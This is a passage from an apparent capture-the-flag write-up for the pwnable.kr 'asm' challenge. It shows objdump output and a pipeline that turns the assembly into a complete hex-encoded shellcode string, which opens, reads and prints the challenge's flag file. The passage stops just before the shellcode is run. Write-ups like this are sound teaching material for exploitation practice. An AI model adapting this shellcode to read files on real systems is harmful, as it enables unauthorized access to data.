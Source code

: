 ```bash
    1170:	04 3c                	add    $0x3c,%al
    1172:	0f 05                	syscall 

0000000000001174 <_push_filename>:
    1174:	e8 b9 ff ff ff       	call   1132 <_readfile>

0000000000001179 <path>:
    1179:	2f 68 6f 6d 65 2f 61 73 6d 5f 70 77 6e 2f 74 68     /home/asm_pwn/th
    1189:	69 73 5f 69 73 5f 70 77 6e 61 62 6c 65 2e 6b 72     is_is_pwnable.kr
    1199:	5f 66 6c 61 67 5f 66 69 6c 65 5f 70 6c 65 61 73     _flag_file_pleas
    11a9:	65 5f 72 65 61 64 5f 74 68 69 73 5f 66 69 6c 65     e_read_this_file
    11b9:	2e 73 6f 72 72 79 5f 74 68 65 5f 66 69 6c 65 5f     .sorry_the_file_
    11c9:	6e 61 6d 65 5f 69 73 5f 76 65 72 79 5f 6c 6f 6f     name_is_very_loo
    11d9:	6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f     oooooooooooooooo
    11e9:	6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f     oooooooooooooooo
    11f9:	6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f     oooooooooooooooo
    1209:	6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f     oooooooooooooooo
    1219:	6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 30 30 30 30 30 30     oooooooooo000000
    1229:	30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30     0000000000000000
    1239:	30 30 30 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 6f     000ooooooooooooo
    1249:	6f 6f 6f 6f 6f 6f 6f 6f 6f 6f 30 30 30 30 30 30     oooooooooo000000
    1259:	30 30 30 30 30 30 6f 30 6f 30 6f 30 6f 30 6f 30     000000o0o0o0o0o0
    1269:	6f 30 6f 6e 67 41                                   o0ongA

[....]
```
I've replaced the irrelevant parts of the `objdump` with `[....]`

Our shellcode:
```bash
tom/tmp/try | [130] 
$ objdump -d ./a | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/'
[....]
\xeb\x42\x5f\x80\xb7\xf5\x00\x00\x00\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xb9\xff\xff\xff\x2f\x68\x6f\x6d\x65\x2f\x61\x73\x6d\x5f\x70\x77\x6e\x2f\x74\x68\x69\x73\x5f\x69\x73\x5f\x70\x77\x6e\x61\x62\x6c\x65\x2e\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x66\x69\x6c\x65\x5f\x70\x6c\x65\x61\x73\x65\x5f\x72\x65\x61\x64\x5f\x74\x68\x69\x73\x5f\x66\x69\x6c\x65\x2e\x73\x6f\x72\x72\x79\x5f\x74\x68\x65\x5f\x66\x69\x6c\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x73\x5f\x76\x65\x72\x79\x5f\x6c\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x6e\x67\x41
[....]
```

So let's try running our shellcode!
